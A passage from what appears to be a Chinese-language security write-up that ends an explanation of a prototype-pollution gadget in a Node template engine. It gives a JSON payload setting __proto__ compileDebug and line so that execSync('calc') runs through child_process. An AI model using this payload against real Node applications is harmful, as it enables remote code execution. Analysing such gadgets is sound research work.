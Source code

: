 可以看到，如果 debug 为真，则 `node.line` 就会被 push 进去，并造成拼接，然后就可以返回 buf 部分进行命令执行。所以最终的 Payload 如下：

```
`{`"__proto__":`{`"compileDebug":1,"self":1,"line":"console.log(global.process.mainModule.require('child_process').execSync('calc'))"`}``}`
```



## Ending……

[![](https://p4.ssl.qhimg.com/t019b0c8507aa774c43.png)](https://p4.ssl.qhimg.com/t019b0c8507aa774c43.png)
